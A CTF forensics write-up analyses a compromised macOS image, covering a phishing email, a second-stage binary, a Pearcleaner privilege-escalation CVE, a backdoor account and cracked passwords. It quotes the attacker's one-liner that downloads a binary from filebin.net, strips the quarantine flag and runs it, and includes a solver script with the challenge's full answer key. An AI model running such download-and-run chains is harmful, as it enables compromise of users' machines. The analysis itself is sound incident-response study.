These are my forensics write-ups from ARA 7.0 2026 Final. Each section follows the solving process recorded during the investigation.

## wilson disaster

Points: 100

### Description

Author: pujoganteng

Oh yes! My salary got updated!!!

zip pass: marimenyawitbersamacoi123456789
nc chall-ctf.ara-its.id 6767

### Solution

Extracting the ZIP produced a collection of macOS directories. The remote service presented a sequence of investigation questions.

```text
[Question #1]
What is the name and version of compromised machine?
Format: Tahoe/26.3
Answer:
```

For the operating system version, I checked `/System/Library/CoreServices/SystemVersion.plist`.



The file showed version `13.0`. I used AI to identify the corresponding name, Ventura, and submitted `Ventura/13.0`.

```text
[Question #2]
Who is suspicious sender send a malicious file?
Format: jefferey@eipstein.com
Answer:
```

I loaded the extracted directories into Autopsy. It identified one email addressed to the victim, sent by `samuelafrizal@proton.me`.



```text
[Question #3]
What is the attachment filename?
Format: DOJ.pdf
Answer:
```

The email attachment was named `SalaryCalculator.zip`.



```text
[Question #4]
What is the command executed in the terminal for initial access?
Format: <command>
Answer:
```

I checked the shell history for the initial access command. Wilson was the only user with a visible `.zsh_history`, and it contained:

```bash
curl -L -s -o '/Users/wilson/stealed' 'https://filebin.net/t4czc053hssj7rg9/stealed' && chmod +x '/Users/wilson/stealed' && xattr -dr com.apple.quarantine '/Users/wilson/stealed' && '/Users/wilson/stealed'
```



```text
[Question #5]
Another file downloaded from the previous malicious file, what is the SHA256 of the file dropped in the second stage?
Format: SHA256
Answer:
```

I downloaded the referenced `stealed` file and calculated its SHA-256.



```text
[Question #6]
What is the name of the encrypted method used in the new dropped file?
Format: XOR
Answer:
```

I used AI to help reverse the binary and identify the encryption algorithm: ChaCha20-Poly1305.



```text
[Question #7]
Another file dropped use that binary, what is the SHA256 of it?
Format: SHA256
Answer:
```

I had not fully decompiled `stealed`, so I inspected the temporary directory for another suspicious binary. I found `xixixi` under `/private/tmp`; its SHA-256 was accepted.



```text
[Question #8]
Where is the path attacker drop that binary (full path) ?
Format: path
Answer:
```

The accepted full path was `/tmp/xixixi`.



```text
[Question #9]
The attacker use vulnerable app to gain root access, what is the name of the app and the version?
Format: Zoom/5.14.7
Answer:
```

The strings in `xixixi` referenced `com.alienator88.Pearcleaner.PearcleanerHelper`. Correlating that helper with the installed application gave `Pearcleaner/4.4.4`.



```text
[Question #10]
What is the vulnerable function that makes the priviledge escalation exist?
Format: somefunction(withparams)
Answer:
```

I used AI to locate the relevant function in the binary. The solver recorded the accepted name as `listener(_:shouldAcceptNewConnection:)`.



```text
[Question #11]
What is the CVE number associated with the exploit leveraged by the attacker?
Format: CVE-YYYY-NNNN
Answer:
```

Searching for `Pearcleaner 4.4.4 CVE` led to the project’s advisory about unauthenticated access to its privileged XPC helper, where I found the CVE ID.



```text
[Question #12]
The user already got reverse shell with root access with new dropped file. what is the full path for the file placed?
Format: path
Answer:
```

Strings analysis in Autopsy revealed a command that downloaded `rev.py` into `/tmp`, giving the path `/tmp/rev.py`.



```text
[Question #13]
At what time did the attacker successfully create a new user?
Format: YYYY-MM-DD HH:MM:SS
Answer:
```

I parsed the unified logs and searched for the other username, `w1ls0n`, to find the account creation event. The remote service accepted a timestamp one second away from the value I first read; the accepted value is preserved in the solver.



```text
[Question #14]
What is the name of the new user?
Format: eipstein
Answer:
```

The newly created account was `w1ls0n`.



```text
[Question #15]
What is the password for new user created by the attacker?
Format: password
Answer:
```

The unified logs also showed the password supplied when creating that account: `Password123`.



```text
[Question #16]
What is the password for the user compromised?
Format: password
Answer:
```

I recovered a keychain from Wilson’s home directory and cracked it with `keychain2john`, obtaining `sexymama69`.



```text
[Question #17]
What is the content of the encrypted data?
Format: SalaryUpdate1337
Answer
```

The second-stage malware derived its encryption key from a file timestamp: `SHA256(big-endian UInt64(epoch_seconds))`. I used the following script to decrypt the data.

```python
#!/usr/bin/env python3
import base64
import hashlib
import struct
import sys
from pathlib import Path

from cryptography.hazmat.primitives.ciphers.aead import ChaCha20Poly1305


for arg in sys.argv[1:]:
    path = Path(arg)
    data = base64.b64decode(path.read_bytes())
    key = hashlib.sha256(struct.pack(">Q", int(path.stat().st_mtime))).digest()
    out = path.with_name(path.name[:-4] if path.name.endswith(".enc") else path.name + ".dec")
    out.write_bytes(ChaCha20Poly1305(key).decrypt(data[:12], data[12:], None))
    print(f"{path} -> {out}")
```

The recovered PDF contained the answer to the last question.


`solve.py`

```python
from pwn import *
p = remote('chall-ctf.ara-its.id', 6767)
print(p.recvuntil(b'\n').decode())
answers = [
    'Ventura/13.0',
    'samuelafrizal@proton.me',
    'SalaryCalculator.zip',
    "curl -L -s -o '/Users/wilson/stealed' 'https://filebin.net/t4czc053hssj7rg9/stealed' && chmod +x '/Users/wilson/stealed' && xattr -dr com.apple.quarantine '/Users/wilson/stealed' && '/Users/wilson/stealed'",
    '172174ba1fc22cb01444a26dd0b604071e0b51ac56884e8aba6a61b262a5ceb5',
    'ChaCha20-Poly1305',
    '037561f26ab113264e5fb85d1dbebdb519746b8c05a41e22a632356cf923502a',
    '/tmp/xixixi',
    'Pearcleaner/4.4.4',
    'listener(_:shouldAcceptNewConnection:)',
    'CVE-2025-54595',
    '/tmp/rev.py',
    '2026-02-26 04:18:02',
    'w1ls0n',
    'Password123',
    'sexymama69',
    'MbakAmoesAkuNaksir1337'
]
for answer in answers:
    p.sendline(answer.encode())
    response = p.recv().decode()
    print(response)
print(p.recvall().decode())
```

### Flag

```text
ARA7{i know im not someone you looking for, but can u give me a chance?}
```
